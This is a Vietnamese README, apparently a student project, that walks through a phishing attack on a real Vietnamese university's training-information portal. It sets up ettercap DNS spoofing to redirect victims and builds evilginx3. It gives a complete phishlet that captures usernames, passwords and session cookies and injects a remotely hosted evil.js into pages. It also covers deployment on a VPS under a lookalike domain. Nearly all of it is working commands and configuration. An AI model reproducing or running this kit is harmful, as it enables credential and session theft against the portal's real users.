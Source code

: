 
## CHUẨN BỊ

- 1 MÁY KALI LINUX: IP 192.168.100.200
- 1 MÁY VICTIM: IP 192.168.100.150
- Default Gateway MẶC ĐỊNH CỦA 2 MÁY: 192.168.100.2
- 1 HOST ĐỂ UPLOAD MÃ JAVASCRIPT ĐỘC HẠI CHÈN VÀO [TÙY VÀO MỤC ĐÍCH THỰC THI CÓ CẦN INJECT JAVASCRIPT VÀO TRANG FAKE, NẾU KHÔNG CẦN BỎ QUA] [TRONG DEMO NÀY, SẼ CHÈN VÀO CUỐI CHỮ "Demo được thực hiện nhằm mục đích làm đồ án"]
- 
## TRONG MÁY KALILINUX:

```
nano /etc/ettercap/etter.dns
```
Thêm vào cuối trang:
```
thongtindaotao.sgu.edu.vn A 192.168.100.200
thongtindaotao.sgu.edu.vn PTR 192.168.100.200
```
Save lại

Bật terminal khác
```
sudo apt update && sudo apt install
```
```
git clone https://github.com/kgretzky/evilginx3.git
cd evilginx3
make
```
```
cd phishlets
nano demo.yaml
```
Thay địa chỉ <ĐỊA CHỈ NƠI UP EVIL.JS/EVIL.JS> (YÊU CẦU DÙNG HTTPS)
```
name: sgu
author: yourname
min_ver: '3.0.0'

proxy_hosts:
  - {phish_sub: "", orig_sub: "", domain: "thongtindaotao.sgu.edu.vn", session: true, is_landing: true}

sub_filters:
  - {triggers_on: "thongtindaotao.sgu.edu.vn", orig_sub: "", domain: "thongtindaotao.sgu.edu.vn", search: "thongtindaotao.sgu.edu.vn", replace: "thongtindaotao.sgu.edu.vn", mimes: ["text/html", "application/javascript", "application/json"]}
  - {triggers_on: "thongtindaotao.sgu.edu.vn", orig_sub: "", domain: "thongtindaotao.sgu.edu.vn", search: "</body>", replace: "<script src='https:///<ĐỊA CHỈ NƠI UP EVIL.JS/EVIL.JS>'></script></body>", mimes: ["text/html", "application/javascript", "application/json"] }

auth_tokens:
  - domain: thongtindaotao.sgu.edu.vn
    keys: ['.*,regexp']

credentials:
  username:
    key: "username"
    search: "(.*)"
    type: post
  password:
    key: "password"
    search: "(.*)"
    type: post

login:
  domain: thongtindaotao.sgu.edu.vn
  path: /
```

## BẬT EVILGINX2 (Demo 1):

```
cd build
sudo ./evilginx -p ../phishlets -developer
phishlets hostname demo thongtindaotao.sgu.edu.vn
phishlets enable demo
lures create demo
lures edit 0 path / #ĐỂ VICTIM TRUY CẬP VÀO thongtindaotao.sgu.edu.vn LÀ VÀO THẲNG TRANG FAKE, KHÔNG CẦN DÙNG LURES
lures get-url 0 #NẾU TEST NHIỀU LẦN THÌ SỐ 0 NÀY SẼ LẤY TỪ CÂU LỆNH TRÊN
```

## BẬT EVILGINX2 TRÊN VPS (Demo 2):

```
sudo ./evilginx
phishlets hostname ttdt thongtindaotao.nodhsg.shop
phishlets enable ttdt
lures create ttdt
lures edit 0 path / #ĐỂ VICTIM TRUY CẬP VÀO thongtindaotao.nodhsg.shop LÀ VÀO THẲNG TRANG FAKE, KHÔNG CẦN DÙNG LURES
lures get-url 0 #NẾU TEST NHIỀU LẦN THÌ SỐ 0 NÀY SẼ LẤY TỪ CÂU LỆNH TRÊN
```

## BẬT ETTERCAP:
```ettercap -G```
QUY TRÌNH: SCAN HOST (THƯỜNG SẼ CHO RA KHOẢNG 4 HOST) --> ADD 192.168.100.150 VÀO TARGET 1 --> BẬT PLUGIN DNS SPOOF_DNS ĐỂ GỬI DNS QUERY CHO MÁY VICTIM 
KHI NÀY NGƯỜI DÙNG NẾU NHẬP thongtindaotao.sgu.edu.vn sẽ ra trang fake

